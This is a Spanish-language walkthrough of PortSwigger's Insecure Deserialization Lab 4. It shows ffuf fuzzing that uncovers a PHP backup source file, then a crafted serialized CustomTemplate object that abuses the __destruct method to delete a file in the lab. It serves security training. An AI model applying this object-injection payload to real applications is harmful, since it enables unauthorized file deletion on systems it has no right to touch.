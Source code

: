 ```yaml
---
title: Insecure Deserialization Lab 4
date: 2024-12-31 12:26:00 +0800
author: Justice-Reaper
categories:
  - Portswigger
  - Insecure Deserialization
tags:
  - Insecure Deserialization
  - Arbitrary object injection in PHP
image:
  path: /assets/img/Insecure-Deserialization-Lab-4/Portswigger.png
---
```


## Skills

- Arbitrary object injection in PHP

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` utiliza un mecanismo de `sesiones` basado en `serialización` y es vulnerable a la `inyección arbitraria de objetos`. Para `resolver` el laboratorio, debemos `crear e inyectar un objeto serializado malicioso` para `eliminar` el archivo `morale.txt` del directorio personal de `Carlos`. Necesitaremos `obtener acceso` al `código fuente` para `resolver` este `laboratorio`. Podemos `iniciar sesión` en nuestra cuenta utilizando las credenciales `wiener:peter`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Insecure-Deserialization-Lab-4/image_1.png)

Pulsamos sobre `My account` y nos `logueamos` utilizando las credenciales `wiener:peter`

![](/assets/img/Insecure-Deserialization-Lab-4/image_2.png)

Si hacemos `Ctrl + u` e `inspeccionamos` el `código fuente` de la web, vemos como en la `parte inferior` hay un `comentario` que hace alusión a la ruta `/libs/CustomTemplate.php`

![](/assets/img/Insecure-Deserialization-Lab-4/image_3.png)

`Fuzzeamos` en busca de `archivos` de `backup` y `encontramos` un `archivo` llamado `CustomTemplate.php~`

```
# ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-extensions.txt -u https://0a81003d04de82aa80dafdef00120067.web-security-academy.net/libs/CustomTemplateFUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0a81003d04de82aa80dafdef00120067.web-security-academy.net/libs/CustomTemplateFUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-extensions.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.php                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 139ms]
.php~                   [Status: 200, Size: 1130, Words: 277, Lines: 39, Duration: 55ms]
.php                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 132ms]
:: Progress: [2450/2450] :: Job [1/1] :: 19 req/sec :: Duration: [0:00:33] :: Errors: 0 ::
```

Si accedemos a `https://0a81003d04de82aa80dafdef00120067.web-security-academy.net/libs/CustomTemplate.php~` podemos ver el `código` del `archivo php`. Si nos fijamos bien en el código vemos los métodos `__destruct()` y `__construct()`, los cuales son `métodos mágicos`, en `PHP` es fácil reconocerlos porque llevan `__` siempre en su nombre. Los métodos mágicos en PHP son funciones especiales predefinidas que se `ejecutan automáticamente` en `respuesta` a ciertos `eventos` o `interacciones` con un `objeto`. En este caso el método que nos interesa es el método mágico `__destruct`, que `borra` el `archivo` que esté en la variable `lock_file_path`

![](/assets/img/Insecure-Deserialization-Lab-4/image_4.png)

`Refrescamos` la `web` con `F5` y `capturamos` la `petición` con `Burpsuite`, al hacerlo vemos que el `parámetro session` contiene un `objeto`

![](/assets/img/Insecure-Deserialization-Lab-4/image_5.png)

`Obtenemos` la `longitud` de `/home/carlos/morale.txt`

```
# echo -n '/home/carlos/morale.txt' | wc -c 
```

`Obtenemos` la `longitud` de `lock_file_path`

```
# echo -n 'lock_file_path' | wc -c 
```

`Obtenemos` la `longitud` de `CustomTemplate`

```
# echo -n 'CustomTemplate' | wc -c
```

`Modificamos` el `objeto` cambiando la `clase` a `CustomTemplate` y `añadiéndole` el parámetro `lock_file_path`, de forma que si el archivo `/home/carlos/morale.txt` existe lo borre

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

Nos dirigimos al `navegador` y pulsamos `Ctrl + Shift + i`, pegamos el nuevo valor para `session` y `refrescamos` la `web` pulsando `F5`. Si todo ha funcionado correctamente deberíamos haber `borrado` el `archivo` y `completado` el `laboratorio`

![](/assets/img/Insecure-Deserialization-Lab-4/image_6.png)
